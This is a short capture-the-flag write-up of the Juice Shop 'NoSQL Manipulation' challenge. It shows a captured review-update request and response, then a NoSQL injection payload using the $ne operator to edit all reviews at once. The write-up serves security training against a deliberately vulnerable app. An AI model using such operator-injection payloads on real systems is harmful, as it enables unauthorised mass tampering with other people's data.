


# NoSQL Manipulation

Update multiple product reviews at the same time.

# Tools used

- Browser
- swisskyrepo/PayloadsAllTheThings
- Burpsuite
- Cyberchef

# Solve

First we try manually editing one of the review left by the admin account using the admin account. When we see the action in burpsuite, we see this

```
{"id":"HNbKrzyzRJcE5DYap","message":"test"}
```

and the response

```
{"modified":1,"original":[{"message":"One of my favorites!","author":"admin@juice-sh.op","product":1,"likesCount":0,"likedBy":[],"_id":"HNbKrzyzRJcE5DYap"}],"updated":[{"message":"test","author":"admin@juice-sh.op","product":1,"likesCount":0,"likedBy":[],"_id":"HNbKrzyzRJcE5DYap"}]}
```



we see that the id is unique for each review. An easy way to manipulate this is by using conditionals. If we try to edit a review that has the condition of not equal ($ne) -1 (not probable for an item to have an id less than 1 or 0 so we use -1 just to be safe). So we use this payload in burpsuite

```
{"id":{ "$ne": -1},"message":"requiiem wuzz here"}
```

